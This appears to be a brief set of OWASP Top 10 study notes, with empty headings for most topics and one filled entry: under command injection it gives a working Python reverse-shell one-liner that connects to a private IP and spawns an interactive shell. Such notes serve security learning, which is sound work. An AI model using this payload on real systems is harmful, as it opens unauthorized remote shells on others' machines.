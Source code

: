 # OWASP TOP 10

## Day 1 : Command Injection

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.9.183",3301));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])
```

## Day 2 : Broken Authentication

## Day 3 : Sensitive data exposure

## Day 4 : XML External Entity

## Day 5 : Broken Access Control

## Day 6 : Security Misconfiguration

## Day 7 : Cross-site Scripting

## Day 8 : Insecure Deserialization

## Day 9 : Components With Known Vulnerabilities
